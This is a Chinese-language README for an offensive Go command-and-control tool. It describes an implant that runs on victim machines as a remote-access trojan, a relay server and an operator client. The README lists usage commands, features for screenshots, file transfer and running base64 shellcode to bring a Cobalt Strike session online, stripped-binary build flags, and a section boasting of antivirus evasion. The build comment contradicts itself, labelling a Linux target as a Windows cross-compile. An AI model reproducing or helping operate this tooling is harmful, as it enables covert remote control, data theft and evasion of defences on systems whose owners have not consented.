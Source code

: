 一个使用GO语言开发的C2

项目基于：https://github.com/newbe3three/gotoexec

项目分为三个独立的部分：植入程序、服务端程序和管理程序

- 植入程序是运行在目标机器上的远控木马的一部分。植入程序会定期轮询服务器以查找新的命令，然后将命令输出发回给服务器
- 管理程序是运行在用户机器上的客户端，用于发出实际的命令
- 服务端则负责与植入程序和客户端的交互，接收客户端的指令，并在植入程序请求时，将命令发送给植入程序，随后将植入程序发送来的结果传递给客户端

![image-20231113151403608](pic/readme/微信截图_20231130090543.png)

### 使用

server：运行在服务端，通过参数 iport 和 aport 指定植入程序和客户端对应的端口号

```bash
server.exe -iport 1961 -aport 1962

-aport int
    	Admin server port (default 1962)
-iport int
    	Implant server port (default 1961)
```

client 

```bash
client.exe -session start -IP 127.0.0.1 -port 1962 -sleep 5

-ip string
        Server IP (default "127.0.0.1")
-port int
        AdminServer Port (default 1962)
 -session string
        start session
 -sleep int
        sleep time
```

### 现有功能

```bash
截图：	screenshot
上传：	upload 本地文件 目标文件  
下载：	download 目标文件 本地文件
执行shellcode上线cs：gotocs shellcode|base64
```

截图以 png 格式保存 client.exe 运行目录下

上传、下载文件大小限制在 10MB 内

要执行的的shellcode需要先base64转码，作为参数传入，执行后client将作为加载shellcode上线cs

#### 编译命令

```bash
# windows 交叉编译
go env -w CGO_ENABLED=0 
go env -w GOOS=linux
go build -ldflags "-s -w" -trimpath -o output.exe
```

目前免杀效果：

![微信截图_20231130090543](pic/readme/微信截图_20231130090543.png)
